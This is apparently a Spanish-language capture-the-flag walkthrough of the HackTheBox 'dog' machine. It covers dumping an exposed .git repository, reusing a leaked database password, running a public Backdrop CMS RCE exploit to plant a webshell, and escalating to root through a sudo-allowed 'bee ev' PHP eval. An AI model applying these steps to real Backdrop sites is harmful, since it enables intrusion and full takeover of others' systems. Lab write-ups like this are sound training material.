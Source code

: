 # Walkthrough - HTB "dog" Machine

Este walkthrough detalla el proceso completo para explotar la máquina "dog" de HackTheBox. Se describen los pasos que incluyen la verificación de que la máquina está activa, descarga del repositorio Git, obtención de credenciales para el CMS Backdrop, explotación de una vulnerabilidad RCE en Backdrop, obtención de un shell, escalada de privilegios vía SSH y sudo, y finalmente la obtención de ambas flags (user y root).

---

## 1. Comprobación de Disponibilidad y Enumeración Inicial

Primero, se hace *ping* para confirmar que la máquina está activa y verificar el sistema operativo.

```bash
ping 10.10.11.58
```
**Salida (fragmento):**
```bash
PING 10.10.11.58 (10.10.11.58) 56(84) bytes of data. 64 bytes from 10.10.11.58: icmp_seq=1 ttl=63 time=39.9 ms 64 bytes from 10.10.11.58: icmp_seq=2 ttl=63 time=51.0 ms ...
```

Luego se realiza un escaneo con Nmap para identificar los puertos abiertos:

```bash
nmap -p- --min-rate=1000 -vvv -Pn 10.10.11.58
```
**Salida (fragmento):**

```bash
PORT STATE SERVICE 
22/tcp open ssh syn-ack 
80/tcp open http syn-ack
```

La máquina tiene abiertos los puertos **22 (SSH)** y **80 (HTTP)**.

---

## 2. Descarga del Repositorio Git

Se detecta que el directorio **.git** está accesible. Se procede a descargar el repositorio usando *git-dumper*. Primero se crea un entorno virtual, se instala la herramienta y luego se descarga:

```bash
python3 -m venv venv
source venv/bin/activate
pip install git-dumper
git-dumper http://10.10.11.58/.git/ ./dog_git_repo
```
Durante la descarga se encuentra, en el fichero de configuración **settings**, la siguiente cadena:

mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop


Esto indica que se usa la contraseña **BackDropJ2024DS2024** para la conexión a la base de datos del CMS Backdrop. Además, se localiza el correo de Tiffany en el repositorio, lo cual permite acceder al CMS.

---

## 3. Explotación del CMS y Vulnerabilidad RCE en Backdrop

Con las credenciales obtenidas (correo y la password de la BD) se accede al CMS Backdrop. Se investigan vulnerabilidades para Backdrop y se encuentra una RCE disponible en Exploit‑DB:  
[Exploit RCE - Exploit-DB 52021](https://www.exploit-db.com/exploits/52021).

Se descarga y se ejecuta el exploit:

```bash
python3 exploit.py 10.10.11.58
```
**Salida (fragmento):**

```bash
Backdrop CMS 1.27.1 - Remote Command Execution Exploit Evil module generating... 

Evil module generated! shell.zip 

Go to 10.10.11.58/admin/modules/install and upload the shell.zip for Manual Installation. 

Your shell address: 10.10.11.58/modules/shell/shell.php
```

Al darse cuenta de que la instalación no acepta archivos ZIP, se comprime el directorio que contiene el shell con:
  
```bash
tar -cvf shell.tar shell/
```
Con el archivo preparado se sube mediante la interfaz del CMS (en la sección de módulos, instalación manual) y se accede al webshell en:

http://dog.htb/modules/shell/shell.php?cmd=ls+%2Fhome


Esto permite ejecutar comandos; se visualizan los usuarios disponibles en `/home` y se accede por SSH usando la contraseña obtenida desde la BD.

---

## 4. Obtención de la User Flag

El acceso por SSH, usando las credenciales obtenidas (BackDropJ2024DS2024) facilita el ingreso al sistema. Además, se encuentra en la home un fichero llamado **myscript.php** con el contenido:

```bash
<?php system('id'); ?>
```
Aunque este script sirve para probar la ejecución de comandos, la flag de usuario se obtiene accediendo por SSH con las credenciales del CMS y explorando el sistema.

---

## 5. Escalada de Privilegios y Obtención de la Root Flag

Se consulta la posibilidad de escalar privilegios mediante sudo:

```bash
sudo -l
```
**Salida:**

```bash
Matching Defaults entries for johncusack on dog: env_reset, mail_badpass, secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

User johncusack may run the following commands on dog: (ALL : ALL) /usr/local/bin/bee
```

El usuario **johncusack** puede ejecutar sin contraseña el comando **/usr/local/bin/bee**, una utilidad para controlar Backdrop desde línea de comandos (ver [Bee en Backdrop CMS](https://backdropcms.org/project/bee)).

El comando `bee ev` permite evaluar código PHP. Se prueba lo siguiente para ejecutar comandos:
  
```bash
sudo /usr/local/bin/bee ev "system('ls')"
```
Se verifica además el contenido de `/root/`:
  
```bash
sudo /usr/local/bin/bee ev "system('ls /root/')"
``` 
Se observa la presencia de **root.txt**. Finalmente se lee la flag:

```bash
sudo /usr/local/bin/bee ev "system('cat /root/root.txt')"
``` 

Con esto se obtiene la **root flag**.

---

## 6. Conclusiones

Este walkthrough mostró los siguientes pasos:

1. **Comprobación y Enumeración Inicial:**  
   - Se verificó la disponibilidad con `ping` y se escanearon los puertos con Nmap (22 y 80).

2. **Descarga del Repositorio Git:**  
   - Se utilizó *git-dumper* para bajar el repositorio expuesto y se encontró la cadena de conexión a la BD del CMS Backdrop, permitiendo obtener acceso al sistema.

3. **Explotación del CMS y RCE en Backdrop:**  
   - Se ejecutó un exploit RCE (Exploit‑DB 52021) para generar un webshell, se preparó el archivo (comprimiéndolo), se subió y se obtuvo acceso mediante el shell.

4. **Obtención de la User Flag:**  
   - Se accedió al sistema via SSH con las credenciales obtenidas, y se encontró la primera flag.

5. **Escalada de Privilegios para Obtener la Root Flag:**  
   - Se ejecutó el comando `sudo /usr/local/bin/bee ev` para evaluar código PHP y ejecutar comandos que permitieron listar y leer el contenido de `/root/`, obteniendo la segunda flag.

**¡Enhorabuena! Has conseguido ambas flags.**

> **Advertencia:**  
> Este ejercicio se realizó en un entorno controlado (CTF). Utiliza estos conocimientos únicamente de forma ética y legal.

---